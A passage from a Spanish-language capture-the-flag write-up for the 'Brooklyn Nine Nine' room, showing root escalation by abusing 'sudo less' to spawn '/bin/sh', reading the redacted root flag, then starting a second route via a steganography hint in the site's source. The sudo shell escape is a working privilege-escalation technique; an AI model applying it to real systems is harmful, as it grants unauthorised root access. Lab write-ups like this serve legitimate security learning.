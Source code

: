 ```console
fi
/etc/profile (END)         # aqui mismo pegamos el segundo comando !/bin/sh y damos a Enter

jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# 
# whoami
root
# ls -la
total 48
drwxr-xr-x 6 holt holt 4096 May 26  2020 .
drwxr-xr-x 5 root root 4096 May 18  2020 ..
-rw------- 1 holt holt   18 May 26  2020 .bash_history
-rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
-rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
drwx------ 2 holt holt 4096 May 18  2020 .cache
drwx------ 3 holt holt 4096 May 18  2020 .gnupg
drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
-rw-r--r-- 1 holt holt  807 May 17  2020 .profile
drwx------ 2 holt holt 4096 May 18  2020 .ssh
-rw------- 1 root root  110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
# cd /root
# ls -la
total 32
drwx------  4 root root 4096 May 18  2020 .
drwxr-xr-x 24 root root 4096 May 19  2020 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 May 17  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 18  2020 .ssh
-rw-r--r--  1 root root  165 May 17  2020 .wget-hsts
-rw-r--r--  1 root root  135 May 18  2020 root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

Enjoy!!
# 
```

Bien, flag de root conseguida, room resuelto. Pero como mencionamos al principio, este CTF nos propone dos vías de resolverlo. Hasta aqui hemos seguido la ruta FTP + Hydra + SSH + Escalado de privilegios. Veamos ahora qué da de si el puerto 80 que tenemos abierto.

## Segunda vía

Cargamos la IP del server en el navegador. El site nos muestra una imagen con un texto al pie. Echamos un ojo al código fuente y nos encontramos el siguiente comentario:

```
<!-- Have you ever heard of steganography? -->
```
